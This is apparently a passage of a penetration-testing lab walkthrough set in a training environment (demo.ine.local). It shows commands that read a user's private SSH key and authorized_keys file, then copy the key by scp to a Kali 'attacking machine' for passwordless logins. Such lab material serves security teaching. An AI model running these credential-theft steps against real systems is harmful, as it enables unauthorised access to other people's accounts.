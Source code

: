 View the content of a specific file called `wait`:

```bash
cat wait
```

Navigate to the `.ssh` directory:

```bash
cd .ssh/
```

- **Explanation**: The `.ssh` directory contains the SSH keys and configurations used by the user for secure access.

List the private SSH key (`id_rsa`):

```bash
cat id_rsa
```

- **Explanation**: `id_rsa` is the user's private SSH key. By obtaining this key, we can log in without needing the user's password.

View the `authorized_keys` file:

```bash
cat authorized_keys
```

- **Explanation**: This file contains the public keys that are allowed to authenticate with the user account via SSH.

Exit the SSH session:

```bash
exit
```

---

#### 3. Transferring the Private SSH Key

Now that we know the private SSH key's location, we transfer it to our attacking machine (Kali Linux):

```bash
scp student@demo.ine.local:~/.ssh/id_rsa .
```

- **Explanation**: The `scp` command securely copies the `id_rsa` file from the target system (`demo.ine.local`) to our local machine. This is the key we will use for future logins.

Verify the file has been transferred:

```bash
ls -al
```

Change the permissions of the private key to ensure it is secure:

```bash
chmod 400 id_rsa
```
